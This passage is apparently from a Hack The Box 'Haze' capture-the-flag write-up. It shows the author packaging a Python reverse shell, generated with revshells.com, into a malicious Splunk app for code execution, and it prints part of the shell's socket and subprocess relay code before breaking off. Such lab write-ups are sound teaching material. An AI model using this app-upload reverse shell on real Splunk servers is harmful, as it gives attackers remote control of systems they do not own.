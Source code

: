 ```
    s.send( win_lin_shell.stderr.read() )
```

I used https://www.revshells.com to generate a Python reverse shell for Windows and noticed that the script had to specify what shell to start (PowerShell in the image below).

![](images/Pasted%20image%2020250628135027.png)

While testing `rce.tgz` I noticed that the `upload_app_exec` is simply the name of the Splunk App.  I renamed this directory to `revshell`.
```
fcoomans@kali:~/htb/haze/SplunkAppShell$ mv upload_app_exec revshell

fcoomans@kali:~/htb/haze/SplunkAppShell$ tree revshell
revshell
├── bin
│   └── reverse_shell.py
└── default
    └── inputs.conf

3 directories, 2 files
```

The https://www.revshells.com reverse shell payload was then inserted in the `bin/reverse_shell.py` file.
```
fcoomans@kali:~/htb/haze/SplunkAppShell$ cat revshell/bin/reverse_shell.py
import os
import socket
import subprocess
import threading


def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()


```